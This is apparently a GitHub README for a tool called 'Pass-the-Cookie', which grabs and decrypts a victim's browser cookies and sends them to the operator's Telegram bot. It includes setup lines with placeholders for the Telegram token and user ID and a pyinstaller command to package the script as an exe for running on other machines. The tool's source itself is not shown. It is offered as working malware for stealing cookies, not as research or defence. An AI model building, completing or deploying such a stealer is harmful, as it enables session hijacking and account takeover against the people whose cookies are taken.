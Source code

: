 # Pass-the-Cookie--syesociety
This tool allows to receive and decrypt cookies and send them to you via telegram address.

There is no need to install modules, the only thing that needs to be installed is the latest version of python, you can convert the file to exe and run it by typing your own telegram bot token and your own user id.

telegram token ("") #Telegram Bot ID
botSend("") #Telegram ID
pyinstaller --onefile script.py
